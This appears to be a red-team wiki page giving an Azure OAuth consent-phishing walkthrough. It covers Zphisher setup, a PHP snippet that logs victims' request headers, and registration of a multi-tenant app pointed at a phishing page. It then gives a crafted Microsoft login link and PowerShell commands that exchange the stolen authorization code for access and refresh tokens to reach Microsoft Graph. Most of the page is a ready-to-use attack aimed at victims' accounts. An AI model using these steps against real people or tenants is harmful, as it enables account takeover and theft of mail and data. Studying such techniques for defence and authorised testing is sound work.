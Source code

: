 # Azure Application service phishing

## Azure Application service phishing

The goal is to create a portal which will prompt the victim to accept specific access from an application into his account.

### Installation

Set up an APP service and Zphisher

{% embed url="https://b3v1l.gitbook.io/offensive-security-and-other-stuff/offsec/cloud-pentesting/cloud-redteam-operation/phishing-techniques/azure/azure-apps-phishing" %}

### Configuration

Add the following lines into the `/home/site/wwwroot/ip.php` (just before `fclose($fp);` )

```php
foreach (getallheaders() as $name => $value) {
                fwrite($fp, "$name: $value <br>");
}
```

### APP registration

On the portal, register a new APP (which will be what the victim will see)

![](<../../../../.gitbook/assets/image (141).png>)

Create an application display name, set the account type to "multi-tenant" and set the redirect link to the phishing web page&#x20;

![](<../../../../.gitbook/assets/image (24).png>)

### API Permissions

![](<../../../../.gitbook/assets/image (195).png>)

* Set up pernissions (to be able to authenticate as the user)

![](<../../../../.gitbook/assets/image (78).png>)

![](<../../../../.gitbook/assets/image (313).png>)

### Admin consent requires

Certain permissions require an admin consent to work...

By default, an user has the ability to set up an application (accept and consent for the organization).&#x20;

![](<../../../../.gitbook/assets/image (28) (1).png>)

For instance, mail.read doesn't work for multi-tenant (same tenant is ...).

### Application Secret

Create a new secret for the application

![](<../../../../.gitbook/assets/image (172).png>)

### Set up the phishing link

Craft the URL which will be sent to the victim

* Get the "application ID" from overview menu

![](<../../../../.gitbook/assets/image (20) (1).png>)

* Replace the Client\_ID value in the following link. Same for URI\_redirect (using the **phishing instance url**)

```csharp
https://login.microsoftonline.com/organizations/oauth2/v2.0/authorize?client_id=<your-client-id>&response_type=code&redirect_uri=https%3A%2F%2F<your-azure-app-service-domain>.azurewebsites.net&response_mode=query&scope=openid%20offline_access%20profile%20user.read%20email&state=1234
```

### Victim point of view

* Victim clicks on the link and get a login prompt

![](<../../../../.gitbook/assets/image (289).png>)

* Permissions request

![](<../../../../.gitbook/assets/image (96).png>)

![](<../../../../.gitbook/assets/image (165).png>)

### Steal the OAuth token&#x20;

* lifetime really short (\~ 10 minutes) but can be refreshed&#x20;

![](<../../../../.gitbook/assets/image (88).png>)

### Import the token

```csharp
$oauth_token = "TOKEN_HERE"
Import-Module AzureOAuthTools.ps1
Get-AzureAccessToken -ClientID “<your-azure-app-client-id>” -ClientSecret “<your-azure-app-secret>” -RedirectUri “https://<yourdomain>.azurewebsites.net” -AuthCode $oauth_token
```

![](<../../../../.gitbook/assets/image (163).png>)

### Access to the Microsoft Graph using the token

```csharp
Check-MSGraphAccess -access_token "Token from previous command"
```

![](<../../../../.gitbook/assets/image (114).png>)

### Refresh the token

```csharp
 Get-NewAccessTokenWithRefreshToken -ClientID "<Client_ID>" -ClientSecret "<Client_Secret>" -RedirectUri "https://<SITE>.azurewebsites.net" -RefreshToken "<Refresh TOKEN FROM PREVIOUS CMD>"
```

![](<../../../../.gitbook/assets/image (269) (1).png>)

### Resources

{% embed url="https://gist.githubusercontent.com/dafthack/4a753e00ee946a0d967fcffa9fc1c526/raw/e34ed34f9900c061bf4920dfd454f577d4191414/AzureOAuthTools.ps1" %}



